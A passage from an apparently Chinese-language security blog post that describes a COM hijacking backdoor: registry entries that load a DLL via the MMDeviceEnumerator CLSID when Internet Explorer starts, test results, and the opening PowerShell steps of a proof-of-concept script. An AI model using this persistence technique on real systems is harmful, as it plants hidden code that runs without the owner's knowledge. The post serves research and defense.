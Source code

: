 创建项`{BCDE0395-E52F-467C-8E3D-C4579291692E}`

创建子项`InprocServer32`

Default的键值为32位dll路径：

`C:\Users\a\AppData\Roaming\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}\api-ms-win-downlevel-1x86-l1-1-0._dl`

创建键值： `ThreadingModel` `REG_SZ` `Apartment`

注册表内容如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-4/2-3.png)

**3、测试**

分别启动32位和64位的iexplore.exe，均可触发后门，启动一次calc.exe

测试成功

**注：**

`{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}`对应`CAccPropServicesClass`

参考链接:

https://msdn.microsoft.com/en-us/library/accessibility.caccpropservicesclass(v=vs.110).aspx?cs-save-lang=1&cs-lang=cpp#code-snippet-1

`{BCDE0395-E52F-467C-8E3D-C4579291692E}`对应`MMDeviceEnumerator`

参考链接:

http://msdn.microsoft.com/en-us/library/windows/desktop/dd316556%28v=vs.85%29.aspx

## 0x04 POC编写
---

POC开发需要注意的细节：

**1、操作默认不一定包含文件夹**

需要先判断文件夹`%APPDATA%\Microsoft\Installer\`
如果没有，在`%APPDATA%\Microsoft\`下创建文件夹Installer

```
if((Test-Path %APPDATA%\Microsoft\Installer\) -eq 0)
{
	Write-Host "[+] Create Folder:  $env:APPDATA\Microsoft\Installer\"
	new-item -path $env:APPDATA\Microsoft\ -name Installer -type directory
}
```

**2、创建文件夹{BCDE0395-E52F-467C-8E3D-C4579291692E}**

由于包含特殊字符{}，需要双引号包含路径

```
if((Test-Path "%APPDATA%\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}") -eq 0)
{
	Write-Host "[+] Create Folder:  $env:APPDATA\Microsoft\Installer\{BCDE0395-E52F-467C-8E3D-C4579291692E}"
	new-item -path $env:APPDATA\Microsoft\Installer -name {BCDE0395-E52F-467C-8E3D-C4579291692E} -type directory
}
```

